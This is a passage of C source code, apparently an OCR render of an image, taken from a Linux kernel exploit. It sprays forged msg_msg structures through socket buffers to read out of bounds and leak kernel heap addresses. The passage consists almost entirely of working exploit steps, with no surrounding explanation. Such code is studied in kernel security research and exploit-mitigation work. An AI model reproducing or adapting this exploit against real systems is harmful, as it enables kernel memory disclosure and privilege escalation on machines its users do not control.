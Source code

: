 ```c
  memset(secondary_buf, 0, sizeof(secondary_buf));
  build_msg_msg((void *)secondary_buf, 0x41414141, 0x42424242,
                PAGE_SIZE - MSG_MSG_SIZE, 0);
  if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
    goto err_rmid;
// 2-2. leak heap pointer `msg_msg->m_list->prev` (kmalloc-0x1000)
  // Use the fake secondary message to read out-of-bounds.
  printf("[*] Leaking adjacent secondary message...\n");
  if (peek_msg(msqid[fake_idx], &msg_fake, sizeof(msg_fake), 1) < 0)
    goto err_rmid;

  // Check if the leak is valid.
  if (*(int *)&msg_fake.mtext[SECONDARY_SIZE] != MSG_TAG) {
    printf("[-] Error could not leak adjacent secondary message.\n");
    goto err_rmid;
  }

  // The secondary message contains a pointer to the primary message.
  msg = (struct msg_msg *)&msg_fake.mtext[SECONDARY_SIZE - MSG_MSG_SIZE];
  kheap_addr = msg->m_list_next;
  if (kheap_addr & (PRIMARY_SIZE - 1))
    kheap_addr = msg->m_list_prev;
  printf("[+] kheap_addr: %" PRIx64 "\n", kheap_addr);

  if ((kheap_addr & 0xFFFF000000000000) != 0xFFFF000000000000) {
    printf("[-] Error kernel heap address is incorrect.\n");
    goto err_rmid;
  }
// 2-3. leak heap pointer `msg_msg->m_list->prev` (kmalloc-0x400)  (forge msg_msg->next)
  printf("[*] Freeing fake secondary messages...\n");
  free_skbuff(ss, secondary_buf, sizeof(secondary_buf));

  // Put kheap_addr at next to leak its content. Assumes zero bytes before
  // kheap_addr.
  printf("[*] Spraying fake secondary messages...\n");
  memset(secondary_buf, 0, sizeof(secondary_buf));
  build_msg_msg((void *)secondary_buf, 0x41414141, 0x42424242,
                sizeof(msg_fake.mtext), kheap_addr - MSG_MSGSEG_SIZE);      // fist 8 bytes must be NULL
  if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
    goto err_rmid;

  // Use the fake secondary message to read from kheap_addr.
  printf("[*] Leaking primary message...\n");
  if (peek_msg(msqid[fake_idx], &msg_fake, sizeof(msg_fake), 1) < 0)
    goto err_rmid;

  // Check if the leak is valid.
  if (*(int *)&msg_fake.mtext[PAGE_SIZE] != MSG_TAG) {
    printf("[-] Error could not leak primary message.\n");
    goto err_rmid;
  }

  // The primary message contains a pointer to the secondary message.
  msg = (struct msg_msg *)&msg_fake.mtext[PAGE_SIZE - MSG_MSG_SIZE];
  kheap_addr = msg->m_list_next;
  if (kheap_addr & (SECONDARY_SIZE - 1))
    kheap_addr = msg->m_list_prev;

  // Calculate the address of the fake secondary message.
  kheap_addr -= SECONDARY_SIZE;
  printf("[+] kheap_addr: %" PRIx64 "\n", kheap_addr);

```